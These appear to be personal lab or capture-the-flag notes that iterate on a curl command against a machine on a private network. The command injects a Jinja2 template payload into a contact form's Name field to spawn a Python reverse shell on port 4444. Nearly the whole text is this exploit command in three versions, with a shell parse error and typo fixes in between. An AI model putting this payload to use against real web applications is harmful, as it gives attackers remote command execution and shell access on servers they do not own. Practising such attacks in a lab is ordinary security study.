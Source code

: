 Error in my payload

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip, deflate, br" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Content-Length: 533" \
 -H "Origin: http://192.168.56.123" \
 -H "Connection: close" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i"\])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
zsh: parse error near `)'
```

![[corp_payloadError.png]]

Time to find the typo....


semi Fixed version
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Referer: http://192.168.56.123/" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Language: en-US,en;q=0.5" \
 -H "Accept-Encoding: gzip,deflate" \
 -H "Host: 192.168.56.123" \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Connection: Keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i"\])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```


```go
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.56.123/contact \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -H "Referer: http://192.168.56.123/" \
 -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8" \
 -H "Accept-Encoding: gzip,deflate" \
 -H "Host: 192.168.56.123" \
 -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
 -H "Connection: Keep-alive" \
 --data-urlencode "Name={{request.application.__globals__.__builtins__.__import__('os').popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.123\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'').read()}}" \
--data "w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage""
```
